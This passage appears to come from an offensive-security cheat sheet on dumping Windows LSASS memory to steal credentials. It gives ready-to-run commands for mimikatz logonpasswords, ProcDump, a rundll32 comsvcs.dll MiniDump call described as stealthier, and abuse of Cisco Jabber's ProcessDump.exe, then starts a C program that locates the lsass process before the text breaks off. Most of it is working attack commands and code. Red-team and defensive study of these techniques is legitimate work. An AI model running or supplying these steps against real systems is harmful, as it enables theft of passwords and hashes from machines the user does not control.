    ```cmd
   mimikatz # sekurlsa::minidump lsass.dmp
   mimikatz # sekurlsa::logonpasswords
   ```

   Here, `lsass.dmp` is the memory dump file created by a different method.

### **Method 2: Using Task Manager, Procdump, or Sysinternals**

1. **Using Task Manager**:
   - **Note**: This method is less stealthy and often requires administrative privileges.
   - Open Task Manager (`Ctrl + Shift + Esc`).
   - Go to the `Details` tab.
   - Find `lsass.exe`, right-click, and select `Create dump file`.
   - The dump will be saved in a temporary directory (e.g., `C:\Users\<User>\AppData\Local\Temp\lsass.dmp`).

2. **Using Sysinternals ProcDump**:
   - ProcDump is a command-line tool from Sysinternals that allows you to dump the memory of a process, including LSASS.

   ```cmd
   procdump -accepteula -ma lsass.exe lsass.dmp
   ```

   - The above command dumps the memory of `lsass.exe` into a file named `lsass.dmp` for offline analysis.

3. **Using `comsvcs.dll` for Stealthier Dumping**:
   - This method uses `comsvcs.dll` to create a memory dump of the `lsass.exe` process in a stealthier manner.

   ```cmd
   rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 1234 C:\path\to\dumpfile.dmp full
   ```

   Replace `1234` with the process ID (PID) of `lsass.exe`. You can find the PID by running `tasklist | findstr lsass`.

### ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber (always?) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:
```cmd
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

### **Method 3: Dumping LSASS with a Custom C/C# Program**

#### C Program Example

Here is a simple C program that uses the Windows API to dump the LSASS process memory:

```c
#include <windows.h>
#include <dbghelp.h>
#include <tlhelp32.h>

DWORD FindProcessId(const char *processName) {
    PROCESSENTRY32 processInfo;
    processInfo.dwSize = sizeof(processInfo);
    HANDLE processesSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (processesSnapshot == INVALID_HANDLE_VALUE) return 0;

    Process32First(processesSnapshot, &processInfo);
    if (!strcmp(processInfo.szExeFile, processName)) {
        CloseHandle(processesSnapshot);
```